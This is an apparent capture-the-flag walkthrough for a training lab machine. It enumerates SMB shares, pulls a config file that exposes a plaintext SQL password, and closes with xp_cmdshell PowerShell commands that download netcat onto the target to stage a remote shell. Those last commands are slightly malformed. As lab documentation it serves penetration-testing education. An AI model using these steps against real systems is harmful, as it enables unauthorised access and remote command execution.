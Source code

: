 IP Machine 10.129.90.151

# Task 1
Which TCP port is hosting a database server?
`└─$ nmap -sC -sV -vv 10.129.90.151 -oN scan/scan.txt`

# Task 2
What is the name of the non-Administrative share available over SMB
```
smbclient -N -L \\\\<IP Machine>\\
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.90.151 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
-N - no passw
-L - List host
lets enumerate more, in backups there is config file, Lets download to our local machine by using get command
```
smbclient -N \\\\10.129.90.151\\backups 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

                5056511 blocks of size 4096. 2625448 blocks available
smb: \> get prod.dtsConfig

```
```
$ cat prod.dtsConfig 
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>   
```
we can spot a password
Password=M3g4c0rp123
# Task 3

What is the password identified in the file on the SMB share?
M3g4c0rp123

# Task 4

What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?
quick google search impacket mssql https://github.com/SecureAuthCorp/impacket

download the script

```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.129.90.151/nc64.exe -outfile nc64.exe"
xp_cmdshell "powershell.exe wget http://10.129.90.151nc.exe -OutFile c:\\Users\Public\\nc.exe"/*
```
